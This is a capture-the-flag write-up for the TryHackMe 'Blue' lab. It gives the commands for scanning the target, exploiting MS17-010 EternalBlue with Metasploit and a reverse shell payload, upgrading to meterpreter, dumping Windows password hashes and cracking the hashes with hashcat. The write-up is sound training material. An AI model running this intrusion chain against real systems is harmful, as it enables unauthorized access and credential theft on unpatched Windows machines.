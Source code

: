 # [Blue](https://tryhackme.com/room/blue)

> Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Scanning

scan the machine

```
nmap -A -T4 10.10.92.237
```

![image](https://user-images.githubusercontent.com/90561566/200109367-28962f61-8943-4d14-8a73-9e5d964af0d3.png)

We can see it's a windows machine name Jon-PC and 3 port under 1000 is opening

![image](https://user-images.githubusercontent.com/90561566/200109397-8209737a-a141-42ab-b58d-0fd91247e152.png)

Nmap also find a lot of vulnerabilities (seem about smb vuln)

```
nmap --script=vuln -T4 10.10.92.237
```

![image](https://user-images.githubusercontent.com/90561566/200109617-23ce7abd-c8a3-4729-bd8b-31bfde219ef9.png)

the answer is CVE-2017-0143 (ms17-010)

## Exploitation

Start Metasploit and use module exploit/windows/smb/ms17_010_eternalblue 

```
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
```

![image](https://user-images.githubusercontent.com/90561566/200110267-d066ba86-1cd8-4301-b7f4-e7e3c3dd3408.png)

now we need to set RHOSTS

```
set RHOSTS 10.10.92.237
set payload windows/x64/shell/reverse_tcp
exploit
```

if failed, try reboot the target machine or set LHOST with your openvpn ip

background session

![image](https://user-images.githubusercontent.com/90561566/200110728-b322a970-d94b-489c-a342-f782c011b32f.png)

## Privilege Escalation

now, we need convert shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
set session 1
exploit
```

it will create a new session 2

```
sessions -i 2
```

now we have escalated to NT AUTHORITY\SYSTEM

![image](https://user-images.githubusercontent.com/90561566/200111595-a6ede282-41cf-4a14-bcc2-08e4f6806903.png)

![image](https://user-images.githubusercontent.com/90561566/200111623-264280be-54ae-4768-96db-d10c804d6d94.png)

background this session too

First, let's list all of the processes running on the system. 

Just because we have system level privileges doesn't mean our process does! We'll have to migrate to a new process that does have those permissions

![image](https://user-images.githubusercontent.com/90561566/200111864-c9d79ce8-da34-49ec-8721-09779a558625.png)

Once a process is found, type migrate PROCESSID, where PROCESSID is the id of the process we are migrating to 

This migration process may fail, migrating processes is only successful realistically about 25% of the time.

## Cracking

dump all of the passwords

```
hashdump
```

![image](https://user-images.githubusercontent.com/90561566/200111953-f057a115-6e76-402c-89f5-b6f4afc5f380.png)

copy password hash to file

```
type ffb43f0de35be4d9917ac0cc8ad57f8d > pass.txt
```

windows pass is using NTLM hashtype (nt) with id=1000

```
hashcat -a 0 -m 1000 pass.txt /usr/share/wordlists/rockyou.txt --show
```

![image](https://user-images.githubusercontent.com/90561566/200112436-d0629063-8109-44df-a9fd-0e5354e4b018.png)

password is `alqfna22`

## Find flags





.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
